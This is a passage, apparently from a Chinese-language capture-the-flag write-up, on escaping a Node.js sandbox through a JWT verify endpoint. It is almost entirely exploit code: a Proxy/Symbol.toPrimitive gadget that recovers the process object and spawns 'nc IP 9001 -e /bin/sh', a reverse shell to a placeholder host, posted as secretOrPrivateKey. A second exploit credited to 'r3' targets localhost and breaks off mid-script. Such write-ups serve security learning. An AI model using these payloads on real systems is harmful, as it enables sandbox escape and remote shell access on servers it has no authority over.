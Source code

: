 所以命令执行的 Payload 是：
```js
const script2 = `
{
    constructor: {
        name: {
            [Symbol.toPrimitive]: new Proxy(_ => _, {
                apply: (...args) => {
                    const process = args[2].constructor.constructor('return process')()
                    process
                        .binding('spawn_sync')
                        .spawn({
                            args: [ "nc","IP","9001","-e","/bin/sh" ],
                            file: 'nc',
                            stdio: [
                                { type: 'pipe', readable: true, writable: false }
                            ]
                        })
                }
            })
        }
    }
}`

fetch(endpoint + `/api/verify`, {
    method: 'POST',
    headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: new URLSearchParams({
        token: `'${token}'`,
        secretOrPrivateKey: script2
    })
})
    .then((res) => res.text())
    .then(console.log)
```


当然从 r3 师傅那里学的如果环境不出网，可以顺便把 `toJSON` 方法给覆盖了从而完成回显得到信息。
Exp From r3

```js
import jwt from 'jsonwebtoken';
import fetch from "node-fetch";
const endpoint = `http://localhost:12345`

const token = jwt.sign({}, 'a')

fetch(endpoint + `/api/verify`, {
    method: 'POST',
    headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: new URLSearchParams({
        token: `'${token}'`,
        secretOrPrivateKey: `
(() => {
  const c = (name, tar = {}) => new Proxy(
    tar,
    {
      apply: (...args) => {
        try {
          const process = args[2].constructor.constructor.constructor('return process')()
          const Buffer = args[2].constructor.constructor.constructor('return Buffer')()
```